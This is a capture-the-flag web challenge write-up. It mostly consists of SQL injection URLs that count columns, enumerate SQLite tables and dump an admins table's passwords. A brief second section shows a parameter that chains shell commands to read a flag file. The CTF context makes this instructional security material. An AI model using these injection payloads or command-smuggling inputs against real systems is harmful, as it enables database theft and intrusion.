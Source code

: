 ```
http://52.66.29.74:8999/profile?username=admin'order+by+4--+&pass=admin&content=1234
http://52.66.29.74:8999/profile?username=admin'order+by+5--+&pass=admin&content=1234  --> error
```
so we have 4 columns 

get columns data type : ( 2nd, 3rd , 4th are strings and printed in the page )

```
http://52.66.29.74:8999/profile?username=x'UNION+SELECT+NULL,'a','a','a'--+&pass=admin&content=1234
```

Enumerate tables :

```
http://52.66.29.74:8999/profile?username=x'UNION+SELECT+NULL,NULL,tbl_name,NULL+FROM+sqlite_master+WHERE+type='table'+and+tbl_name+NOT+like+'sqlite_%' LIMIT+0,1--+&pass=admin&content=1234
```
```
http://52.66.29.74:8999/profile?username=x'UNION+SELECT+NULL,NULL,tbl_name,NULL+FROM+sqlite_master+WHERE+type='table'+and+tbl_name+NOT+like+'sqlite_%' LIMIT+1,1--+&pass=admin&content=1234
```
![image](https://user-images.githubusercontent.com/67979878/184501361-36d1ce83-48aa-417a-b86f-28556d00f408.png)


we got admins,users tables , we can start enumerating columns of table admins: 
```
http://20.193.247.209:8555/profile?username=admin'+UNION+SELECT+NULL,NULL,GROUP_CONCAT(sql),NULL+FROM+sqlite_master+WHERE+type='table'--&pass=admin&content=a
```
found pass,content columns

![image](https://user-images.githubusercontent.com/67979878/184502938-dcd06bbe-0329-4845-99d9-3c83ff99135f.png)




```
http://20.193.247.209:8555/profile?username=x'UNION+SELECT+NULL,NULL,pass,NULL+FROM+admins--+&pass=admin&content=1234
http://20.193.247.209:8555/profile?username=x'+UNION+SELECT+NULL,id,content,pass+FROM+admins--&pass=admin&content=a
```

![image](https://user-images.githubusercontent.com/67979878/184502784-f05cb0be-8a8f-4f7b-a41e-9fe5c6593b08.png)


`shellctf{Sql_1Nj3c7i0n_B45iC_XD}`

## MORE ILLUSION (web)


http://20.193.247.209:8822/wH4t_Y0u_d1d?Th1nK_Tw1c3=ccdd+..+..;ccdd+flag-------------;ccdd+flag;ccdd+flag;ccdd+flag;ccdd+flag;cat+flag.txt


```
shellctf{H0p3_4ny0N3_No7_n071c3_SiZe_D1fF3reNc3_du_apparent-size_ah}
```
